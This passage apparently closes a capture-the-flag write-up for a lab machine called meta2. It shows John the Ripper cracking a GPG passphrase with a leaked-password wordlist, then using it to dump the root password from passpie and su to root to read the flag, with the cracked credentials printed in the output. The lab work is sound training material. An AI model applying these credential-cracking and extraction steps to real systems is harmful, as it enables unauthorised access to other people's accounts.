└─$ john --wordlist=/opt/seclists/Passwords/Leaked-Databases/rockyou.txt gpg.hash 
<...SNIP...>
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)

```
I do this and look at that, the hash cracks! I use this passphrase to dump creds from passpie using the `copy` function to print the `root` password. 
```bash
jnelson@meta2:~/.passpie$ passpie copy --to stdout root@ssh
Passphrase: 
p7qfAZt4_A1xo_0x
```
I then just `su` over to root and grab the flag
```bash
jnelson@meta2:~/.passpie$ su root
Password: 
root@meta2:/home/jnelson/.passpie# cd 
root@meta2:~# cat root.txt
d7962d17------------------------
root@meta2:~# 
```